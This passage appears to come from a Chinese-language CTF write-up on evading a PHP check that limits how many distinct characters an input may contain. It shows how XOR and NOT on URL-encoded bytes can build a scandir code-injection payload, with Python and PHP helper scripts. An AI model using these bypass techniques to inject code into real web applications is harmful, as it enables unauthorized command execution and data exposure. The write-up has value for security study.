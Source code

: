 被第二层if给拦截了，一定是我们的payload没有通过strlen(count_chars(strtolower($_), 0x3))的检查，测试一下

```php
<?php
$_ = "print_r(scandir('.'));";
echo strlen(count_chars(strtolower($_), 0x3));
//返回14
?>
```

测试长度为14确实超出了规定范围，这个时候我们可以**使用异或的方法通过已存在的字符构造出来字符来代替三个其中的字符**，这样长度就从14缩到了11，选择使用pscadn来代替itr，python脚本如下：

```python
#python取字脚本
str = 'pscadn'
target = 'itr' 
for m in target:
    for a in str:
        for b in str:
            for c in str:
                if ord(a) ^ ord(b) ^ ord(c) == ord(m):
                    print("{} = {}^{}^{}".format(m, a, b, c))
输出：
i = c^d^n
t = s^c^d
r = p^c^a
```

count_chars() 函数统计的是字符串所用不同字符的个数，所以可以使用异或的方法，通过已存在的字符构造三个没有的字符，这样16个字符就变成了13个。

比如构造n=c^d^i，那么通过url传递，就要构造n=%9c^%9b^%96^%ff=~%91=%ff^%91

```php
echo urldecode('%9c')^urldecode('%9b')^urldecode('%96')^urldecode('%ff');   //n
echo ~urldecode('%91');                                                     //n
echo urldecode('%91')^urldecode('%ff');                                     //n
```

这里我选用pscadn来构造itr

```php
<?php
$dic = 'p s c a d n';
$arr1 = explode(' ', $dic);
foreach ($arr1 as $key => $value) {
    echo "$value = ".urlencode($value ^ urldecode('%ff'))."\n";
}
运行可以得到：   
p = %8F
s = %8C
c = %9C
a = %9E
d = %9B
n = %91
所以构造
    
i = c^d^n = %9c^%9b^%91^%ff//echo urldecode('%9c')^urldecode('%9b')^urldecode('%91')^urldecode('%ff'); 输出i
t = s^c^d = %8c^%9c^%9b^%ff
r = p^c^a = %8f^%9c^%9e^%ff
```
